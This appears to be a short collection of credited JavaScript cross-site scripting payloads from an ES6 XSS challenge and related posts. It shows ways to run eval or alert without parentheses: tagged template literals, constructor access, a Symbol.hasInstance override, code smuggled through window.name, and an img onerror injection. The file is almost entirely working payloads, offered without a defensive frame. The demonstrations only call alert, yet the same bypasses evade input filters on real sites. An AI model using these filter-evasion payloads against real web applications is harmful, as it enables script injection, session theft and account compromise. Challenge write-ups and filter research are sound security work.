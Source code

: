 
    
--- 


[albinowax](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    eval.constructor`eval\x28name\x29```
    
--- 

[hasegawayosuke](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    [].every.call`eval\x28name\x29${eval}`
    
---

[Tomer Zait](https://twitter.com/realgam3/status/1298290461371662337)

    []["filter"]["constructor"]`alert\x2823\x29```
    
---

[Pepe Vila](https://twitter.com/cgvwzq)

    Array.prototype[Symbol.hasInstance]=eval;
    "alert\x2823\x29" instanceof [];
    
---


[RootEval](https://twitter.com/RootEval)

    x='javascript:alert\x2823\x29';x={x:location}=this
    
---

[iwasakinoriaki](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    eval.call`${top.name}`
    
---

[Cure53](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="<img src=x onerror=alert(23)>"
    location="xss.html"
    